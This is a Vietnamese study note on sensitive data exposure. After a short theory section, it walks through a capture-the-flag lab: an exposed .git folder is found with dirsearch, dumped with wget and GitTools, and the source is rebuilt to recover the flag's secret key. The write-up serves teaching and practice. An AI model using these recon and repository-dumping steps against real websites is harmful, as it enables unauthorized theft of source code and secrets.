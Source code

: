 I. Lý thuyết<br>
1. tiết lộ data nhạy cảm là gì<br>
- vul này xảy ra khi data bị lộ cho 1 user, người ko đc ủy quyền rõ ràng để truy cập vào data đó
- VD: password login, int4 riêng tư của user, ...<br>

2. cách để test<br>
- vul này ko thể tìm kiếm or test giống như các vul thông thg
- hầu hết các vul này đều ko thể scan
- VD:<br>
+ app lưu password của user ở dạng văn bản thuần túy
+ password dễ crack
+ API token bị lộ trong mã nguồn công khai (github)<br>
- VD thực:<br>
+ giả sử đang test 1 web trong khi xài dirb để brute-force các thư mục và tìm thấy 1 .git có sẵn
+ thư mục git giúp tìm thấy các vul mới bằng cách phân tích mã nguồn 
+ đồng thời tìm thấy các file chứa data nhạy cảm
+ download thư mục .git để kết xuất data (xài wget)
- dùng tool (https://github.com/internetwache/GitTools) or lệnh thủ công để kết xuất data:<br>
+ git status# -> trả về file đã bị xóa và thư mục trống
+ git checkout --.# -> khôi phục file và tải xuống thư mục
+ git log# -> xem có những commit nào khác
- một số cách khác để lấy data nhạy cảm:<br>
+ tìm file mã nguồn (.old, .bak, ..)
+ file ẩn
+ file JS
+ thư mục github (của mục tiêu)<br>

3. phòng tránh<br>
- tìm data nhạy cảm để bảo vệ
- sau khi bảo vệ, truy cập những data rủi ro này và đảm bảo:<br>
+ data ko đc lưu trữ ở dạng văn bản rõ ràng
+ data ko đc truyền dưới dạng văn bản rõ ràng mà phải xài HTTPS
+ xài thuật toán đủ phức tạp để mã hóa data
+ bảo mật việc tạo key<br>

4. tool<br>
- https://portswigger.net/
- brute-force thư mục: https://wiki.owasp.org/index.php/Category:OWASP_DirBuster_Project
- kết xuất 1 thư mục git từ 1 web: https://github.com/internetwache/GitTools<br>

II. lap: Maximum Courage<br>
1. phân tích url -> tìm ra thư mục .git: http://wlemxwl32epheze6eg23gmgi834kj6zq9oj9s6z9-web.cybertalentslabs.com/.git/<br>

```
python3 dirsearch.py -u http://wlemxwl32epheze6eg23gmgi834kj6zq9oj9s6z9-web.cybertalentslabs.com/

  _|. _ _  _  _  _ _|_    v0.4.3
 (_||| _) (/_(_|| (_| )

Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 25 | Wordlist size: 11723

Output: /root/dirsearch/reports/http_wlemxwl32epheze6eg23gmgi834kj6zq9oj9s6z9-web.cybertalentslabs.com/__24-08-01_04-06-09.txt

Target: http://wlemxwl32epheze6eg23gmgi834kj6zq9oj9s6z9-web.cybertalentslabs.com/

[04:06:09] Starting: 
[04:06:28] 301 -  417B  - /.git  ->  http://wlemxwl32epheze6eg23gmgi834kj6zq9oj9s6z9-web.cybertalentslabs.com/.git/
[04:06:28] 200 -    3KB - /.git/                                            
[04:06:28] 200 -   23B  - /.git/HEAD
[04:06:28] 200 -  266B  - /.git/COMMIT_EDITMSG                              
[04:06:28] 200 -    3KB - /.git/hooks/
[04:06:28] 200 -  196B  - /.git/config
[04:06:28] 200 -  209B  - /.git/index                                       
[04:06:28] 200 - 1000B  - /.git/info/                                       
[04:06:28] 200 -  240B  - /.git/info/exclude                                
[04:06:29] 200 -    1KB - /.git/logs/                                       
[04:06:28] 200 -   73B  - /.git/description
[04:06:29] 200 -  148B  - /.git/logs/HEAD
[04:06:29] 301 -  427B  - /.git/logs/refs  ->  http://wlemxwl32epheze6eg23gmgi834kj6zq9oj9s6z9-web.cybertalentslabs.com/.git/logs/refs/
[04:06:29] 301 -  433B  - /.git/logs/refs/heads  ->  http://wlemxwl32epheze6eg23gmgi834kj6zq9oj9s6z9-web.cybertalentslabs.com/.git/logs/refs/heads/
[04:06:29] 200 -  148B  - /.git/logs/refs/heads/master
[04:06:29] 200 -    2KB - /.git/objects/                                    
[04:06:29] 200 -    1KB - /.git/refs/
[04:06:29] 301 -  427B  - /.git/refs/tags  ->  http://wlemxwl32epheze6eg23gmgi834kj6zq9oj9s6z9-web.cybertalentslabs.com/.git/refs/tags/
[04:06:29] 200 -   41B  - /.git/refs/heads/master                           
[04:06:29] 301 -  428B  - /.git/refs/heads  ->  http://wlemxwl32epheze6eg23gmgi834kj6zq9oj9s6z9-web.cybertalentslabs.com/.git/refs/heads/
[04:06:31] 403 -  351B  - /.ht_wsr.txt                                      
[04:06:32] 403 -  354B  - /.htaccess.bak1                                   
[04:06:32] 403 -  356B  - /.htaccess.sample                                 
```

2. tải thư mục về và phân tích: wget -r http://wlemxwl32epheze6eg23gmgi834kj6zq9oj9s6z9-web.cybertalentslabs.com/.git 
<br>

3. thu được các file sau và phân tích -> file: flag.txt sai<br>

```
drwxr-sr-x  4 root root 4096 Aug  1 13:04 .
drwsr-sr-x 20 root root 4096 Aug  1 05:04 ..
drwxr-sr-x  6 root root 4096 Aug  1 05:01 .git
drwxr-sr-x  4 root root 4096 Aug  1 13:04 wlemxwl32epheze6eg23gmgi834kj6zq9oj9s6z9-web.cybertalentslabs.com
```

4. tìm đc file flag.php và mở xem<br>
```
──(root㉿kali)-[/moon/wlemxwl32epheze6eg23gmgi834kj6zq9oj9s6z9-web.cybertalentslabs.com]
└─# ls -la
total 24
drwxr-sr-x 4 root root 4096 Aug  1 13:04 .
drwxr-sr-x 4 root root 4096 Aug  1 13:04 ..
-rw-r--r-- 1 root root   89 Aug  1 13:04 flag.php
drwxr-sr-x 7 root root 4096 Aug  1 13:04 .git
drwxr-sr-x 2 root root 4096 Aug  1 13:04 icons
-rw-r--r-- 1 root root  455 Aug  1 13:04 index.html
```

```
cat flag.php                                                        
You can't view this flag directly.
<!-- PHP source doesn't appear on HTML comments -->
```

5. tìm đc 1 file .git trong cùng thư mục với file flag.php -> dùng tool để tải lại toàn bộ thư mục .git ban đầu<br>
```
┌──(root㉿kali)-[~/GitTools/Dumper]
└─# ./gitdumper.sh http://wlemxwl32epheze6eg23gmgi834kj6zq9oj9s6z9-web.cybertalentslabs.com/.git/ ./moon1
###########
# GitDumper is part of https://github.com/internetwache/GitTools
#
# Developed and maintained by @gehaxelt from @internetwache
#
# Use at your own risk. Usage might be illegal in certain circumstances. 
# Only for educational purposes!
###########


[*] Destination folder does not exist
[+] Creating ./moon1/.git/
[+] Downloaded: HEAD
[-] Downloaded: objects/info/packs
[+] Downloaded: description
[+] Downloaded: config
[+] Downloaded: COMMIT_EDITMSG
[+] Downloaded: index
[-] Downloaded: packed-refs
[+] Downloaded: refs/heads/master
[-] Downloaded: refs/remotes/origin/HEAD
[-] Downloaded: refs/stash
[+] Downloaded: logs/HEAD
[+] Downloaded: logs/refs/heads/master
[-] Downloaded: logs/refs/remotes/origin/HEAD
[-] Downloaded: info/refs
[+] Downloaded: info/exclude
[-] Downloaded: /refs/wip/index/refs/heads/master
[-] Downloaded: /refs/wip/wtree/refs/heads/master
[+] Downloaded: objects/ca/432659ef19b8e1cfd6607878c4eb5a778dc37d
[-] Downloaded: objects/00/00000000000000000000000000000000000000
[+] Downloaded: objects/08/48654ac283468f006838972da074064826f6e9
[+] Downloaded: objects/f3/df28f6e6614d7753ba2e5c45447fde1a99671a
[+] Downloaded: objects/c2/72c09bb7c1a565df8230f07f0e29db84fd676e
```

6. khôi phục lại các file ban đầu trong thư mục .git<br>
```
──(root㉿kali)-[~/GitTools/Extractor]
└─# ./extractor.sh /root/GitTools/Dumper/moon1 ./moon2

###########
# Extractor is part of https://github.com/internetwache/GitTools
#
# Developed and maintained by @gehaxelt from @internetwache
#
# Use at your own risk. Usage might be illegal in certain circumstances. 
# Only for educational purposes!
###########
[*] Destination folder does not exist
[*] Creating...
[+] Found commit: ca432659ef19b8e1cfd6607878c4eb5a778dc37d
[+] Found file: /root/GitTools/Extractor/./moon2/0-ca432659ef19b8e1cfd6607878c4eb5a778dc37d/flag.php
[+] Found file: /root/GitTools/Extractor/./moon2/0-ca432659ef19b8e1cfd6607878c4eb5a778dc37d/index.php
```

7. tìm kiếm file flag.php<br>
```
┌──(root㉿kali)-[~/GitTools/Extractor/moon2]
└─# ls -la
total 12
drwxr-xr-x 3 root root 4096 Aug  1 13:41 .
drwxr-xr-x 3 root root 4096 Aug  1 13:41 ..
drwxr-xr-x 2 root root 4096 Aug  1 13:41 0-ca432659ef19b8e1cfd6607878c4eb5a778dc37d
```

```
┌──(root㉿kali)-[~/GitTools/Extractor/moon2/0-ca432659ef19b8e1cfd6607878c4eb5a778dc37d]
└─# ls -la
total 20
drwxr-xr-x 2 root root 4096 Aug  1 13:41 .
drwxr-xr-x 3 root root 4096 Aug  1 13:41 ..
-rw-r--r-- 1 root root  147 Aug  1 13:41 commit-meta.txt
-rw-r--r-- 1 root root  160 Aug  1 13:41 flag.php
-rw-r--r-- 1 root root  449 Aug  1 13:41 index.php
```

8. đọc thư mục flag.php: be607453caada6a05d00c0ea0057f733<br>
```
──(root㉿kali)-[~/GitTools/Extractor/moon2/0-ca432659ef19b8e1cfd6607878c4eb5a778dc37d]
└─# cat flag.php                                 
You can't view this flag directly.
<!-- PHP source doesn't appear on HTML comments -->
<?php
exit();
die();
$secret_key = 'be607453caada6a05d00c0ea0057f733';
?>
```
